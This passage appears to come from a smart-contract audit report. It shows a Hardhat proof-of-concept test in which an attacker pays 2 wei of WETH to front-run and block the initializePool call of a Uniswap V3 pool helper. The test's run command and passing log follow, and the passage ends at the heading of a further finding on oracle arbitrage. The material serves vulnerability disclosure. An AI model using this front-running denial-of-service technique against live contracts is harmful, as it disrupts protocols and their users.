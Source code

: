 ```diff
+                       amountIn: BigNumber.from(2),
+                       amountOutMinimum: 0,
+                       sqrtPriceLimitX96: 0,
+               });
+
+               // 3. admin run `initializePool`
+               await expect(poolHelper.initializePool({
+                       factoryType: 0,
+                       uniV3Factory: factory.address,
+                       tokenizedLpImpl: uV3TokenizedLp_implementation.address,
+                       usdRdntOracle: rdntUsdOracle.address,
+                       usdWeth9Oracle: wethUsdOracle.address
+               })).to.be.revertedWith('ERC20: transfer amount exceeds balance');
+
+               const attackerWethCost = attackerWethBalanceBefore.sub(await weth.balanceOf(attacker.address));
+               console.log("attacker cost %s wei WETH", attackerWethCost);
+       });
+
        it('should check uniV3PoolHelper can be properly initialized', async () => {
                const {poolHelper, uV3TokenizedLp_implementation, factory, samplePool, rdntUsdOracle, wethUsdOracle} =
                        await loadFixture(setupFixture);
```

Run the PoC

```bash
yarn hardhat test --grep "initializePool can be DoS"
```

The log

```bash
$ yarn hardhat test --grep "initializePool can be DoS"
Warning: All subsequent Upgrades warnings will be silenced.

    Make sure you have manually checked all uses of unsafe flags.



  UniV3PoolHelper:
attacker cost 2 wei WETH
    ✔ initializePool can be DoS (9128ms)


  1 passing (14s)


```

# [M-04] Attacker can exploit oracle price differences to arbitrage
